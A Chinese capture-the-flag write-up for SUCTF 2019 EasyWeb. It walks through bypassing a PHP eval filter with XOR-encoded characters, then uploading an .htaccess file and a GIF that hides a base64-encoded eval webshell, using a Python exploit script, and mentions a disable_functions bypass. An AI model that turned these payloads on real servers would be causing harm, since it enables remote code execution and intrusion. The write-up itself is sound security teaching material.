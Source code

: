 # \[SUCTF 2019]EasyWeb

## \[SUCTF 2019]EasyWeb

## 考点

* PHP传参特性，PHP参数传递特性，PHP参数污染，PHP的字符串解析特性
* .htaccess特性
* .htaccess在没有\<?的情况下制作图片马

## wp

给了源码

```php
<?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```

两个部分，一个要执行get\_the\_flag函数，一个要绕文件上传

### 第一部分

传入参数长度小于等于18，并且由不超过12个字符组成。这些字符不包括这些

```
ASCII范围不包含
0-32，48-57，65-90，97-122，127
还有
'"`~_&.,|=[
```

![](<../../.gitbook/assets/image (14).png>)

可以看出来没有过滤的是`$^{}%();`等等。一般来说，PHP传参是`$_GET["a"]`这种形式，但是在PHP7也可以这样`${_GET}{a}`

paylaod: `_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo` 相当于 `_=${_GET}{%ff}();&%ff=phpinfo`

### 第二部分

文件上传，后缀不能有`ph`，上传的文件内容不能有`<?`，并且会用`exif_imagetype`函数对上传文件进行检测

后缀不能有`ph`，那就是`.htaccess`或者`.user.ini`

内容不包含`<?`那就是`<script language="php">`，但是在PHP7被弃用

不确定中间件不确定PHP版本，看一下phpinfo，得到信息<mark style="color:orange;">`PHP7.2`</mark>和<mark style="color:orange;">`apache2`</mark>，REMOTE\_ADDR是10.244.80.46

![](<../../.gitbook/assets/image (5).png>)

这样思路就明确了，上传`.htaccess`让服务器把图片文件解析成木马，但有几个问题

* `.htaccess`格式很严格，加上图片头文件apache是解析不了的，如何让它被识别成图片
* 图片文件在没有`<?`的情况下如何写马

<mark style="background-color:orange;">第一个问题有两个方法</mark>

一是

```
#define width 1337
#define height 1337
```

二是

`.htaccess`文件前加上16进制的`x00x00x8ax39x8ax39`，也即wbmp文件的开头，并且`.htaccess`文件中以`0x00`开头是注释符

<mark style="background-color:orange;">第二个问题是用</mark>`.htaccess`文件的`auto_append_file`包含base64解码的shell

.htaccess

```
#define width 1337
#define height 1337 
AddType application/x-httpd-php .gif
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_cc551ab005b2e60fbdc88de809b2c4b1/shell.gif"
```

shell.gif

```
GIF89a12PD9waHAgZXZhbCgkX1JFUVVFU1RbJ2EnXSk7Pz4=
```

然后上传可以用POSTman或者脚本都可以

```python
import requests
import base64

htaccess = b"""#define width 1337
#define height 1337 
AddType application/x-httpd-php .gif
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_cc551ab005b2e60fbdc88de809b2c4b1/shell.gif"
"""
shell = b"GIF89a12PD9waHAgZXZhbCgkX1JFUVVFU1RbJ2EnXSk7Pz4="
url = "http://fd0b9d5f-f8d6-4615-8a64-5c5eac845091.node4.buuoj.cn:81/?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=get_the_flag"

files = {'file':('.htaccess',htaccess,'image/jpeg')}
data = {"upload":"Submit"}
response = requests.post(url=url, data=data, files=files)
print(response.text)

files = {'file':('shell.gif',shell,'image/jpeg')}
response = requests.post(url=url, data=data, files=files)
print(response.text)

```

连接成功后发现权限好像不对，输什么都是返回ret=127，看了一下phpinfo，是要进行bypass\_disable\_function，用蚁剑自带的插件就可以。因为是PHP7.2，所以用了PHP7 Backtrace UAF进行bypass。

![](<../../.gitbook/assets/image (11).png>)

## 小结

1. PHP传参是`$_GET["a"]`这种形式，但是在<mark style="color:orange;">PHP7</mark>也可以这样`${_GET}{a}`
2. 用`.htaccess`文件的`auto_append_file`可以包含base64解码的shell
